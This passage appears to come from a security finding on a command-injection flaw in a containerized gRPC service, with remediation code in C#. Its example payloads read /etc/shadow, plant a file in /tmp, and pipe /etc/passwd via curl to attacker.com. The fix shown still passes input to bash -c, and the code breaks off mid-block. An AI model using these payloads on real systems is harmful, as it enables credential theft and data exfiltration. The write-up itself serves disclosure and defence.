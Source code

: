 3. **Full Command Output Return**: The service returns the complete output of the command execution to the client, which aids attackers in information gathering.

4. **Containerized Environment**: While containerization provides some isolation, compromised containers can still access sensitive data or be used as a starting point for lateral movement.

**Exploitation Requirements:**

1. The attacker must have VPN access to the internal network where the service is deployed.
2. The attacker must possess valid credentials with at least basic privileges to authenticate to the gRPC service.
3. The attacker needs to craft a malicious gRPC request containing command injection payloads.

**Example Payloads:**

- Basic command chaining: `echo hello; id; pwd`
- Command substitution: `$(cat /etc/shadow)`
- Redirection to write files: `echo "malicious content" > /tmp/backdoor`
- Piping output to network tools: `cat /etc/passwd | curl -X POST -d @- http://attacker.com`

The containerized Linux environment adds complexity to both the potential impact and remediation. While container boundaries may limit some attacks, they don't eliminate the risk, especially if the container has been granted elevated privileges or access to sensitive resources within the internal network.

# Remediation Steps
## Implement Command Whitelisting and Parameter Sanitization

**Priority**: P0

Replace the direct command execution with a whitelist-based approach that only allows specific approved commands:

```csharp
public override Task<CommandResponse> ExecuteCommand(
    CommandRequest request, ServerCallContext context)
{
    string userCommand = request.InputCommand;
    
    // Validate command against whitelist
    if (!IsAllowedCommand(userCommand, out string sanitizedCommand, out string errorMessage))
    {
        return Task.FromResult(new CommandResponse { 
            Output = $"Error: {errorMessage}",
            Status = CommandStatus.Rejected
        });
    }
    
    // Now execute only the validated and sanitized command
    var startInfo = new ProcessStartInfo
    {
        FileName = "/bin/bash",
        Arguments = $"-c \"{sanitizedCommand}\"",
        RedirectStandardOutput = true,
        UseShellExecute = false,
        CreateNoWindow = true,
    };
    
    Process process = Process.Start(startInfo);
    string output = process.StandardOutput.ReadToEnd();
    process.WaitForExit();
    
    return Task.FromResult(new CommandResponse { 
        Output = output,
        Status = CommandStatus.Executed
```